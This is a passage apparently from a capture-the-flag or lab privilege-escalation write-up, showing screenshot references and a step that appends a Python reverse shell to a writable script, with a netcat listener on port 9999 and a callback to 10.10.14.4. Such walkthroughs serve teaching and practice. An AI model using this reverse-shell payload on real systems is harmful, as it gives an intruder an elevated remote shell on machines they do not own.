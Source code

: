 ![writeup.privesc.steps.2.1](./screenshot08.png)  

![writeup.privesc.steps.2.2](./screenshot09.png)  

![writeup.privesc.steps.2.3](./screenshot11.png)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
``` {.python .numberLines}
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py

```
